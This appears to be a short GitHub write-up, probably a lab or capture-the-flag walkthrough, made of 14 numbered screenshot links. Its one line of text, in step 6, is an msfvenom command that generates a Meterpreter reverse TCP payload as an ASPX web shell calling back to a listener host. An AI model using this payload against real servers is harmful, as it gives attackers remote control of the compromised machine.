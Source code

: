1.
![image](https://github.com/user-attachments/assets/9d276ff9-7b4b-491e-ae79-5a5b855f47d5)
2.
![image](https://github.com/user-attachments/assets/74ba80c9-2e25-4304-93f2-0c873afe8b7d)
3.
![image](https://github.com/user-attachments/assets/3c671145-e066-46da-b01a-6dafb7eefa28)
4.
![image](https://github.com/user-attachments/assets/7f401a1f-0c42-48f5-8eef-95df2e2d8903)
5.
![image](https://github.com/user-attachments/assets/68631caf-53eb-480a-861c-b56b506b2fe2)
6.
**Command: msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.21.155.12 lport=7777 -f aspx -o shell.aspx** <br>
![image](https://github.com/user-attachments/assets/04768c2a-a505-4230-a671-f0cafb4f6027)
7.
![image](https://github.com/user-attachments/assets/977ccb2c-bd35-4a64-a73b-ea36766ed9ff)
8.
![image](https://github.com/user-attachments/assets/29a31803-94b6-43af-b4a6-900b6a818ffe)
![image](https://github.com/user-attachments/assets/bcdb0f8a-6594-431b-affc-d73518ec8f64)
9.
![image](https://github.com/user-attachments/assets/30784713-bd2e-4457-a25f-d31a8e8fa860)
10.
![image](https://github.com/user-attachments/assets/00f033bf-7927-4ec3-840e-a05ca188d6d4)
11.
![image](https://github.com/user-attachments/assets/bb05dc70-81a2-4180-9ab1-8108e975a713)
12.
![image](https://github.com/user-attachments/assets/031e3f60-95cd-4d8b-b2cd-b52de35b051d)
13.
![image](https://github.com/user-attachments/assets/f6694adf-1f44-4e1b-ae68-be9abc2c5c31)
14.
![image](https://github.com/user-attachments/assets/c2e9cc30-9e48-4b49-a413-518b9989641f)
























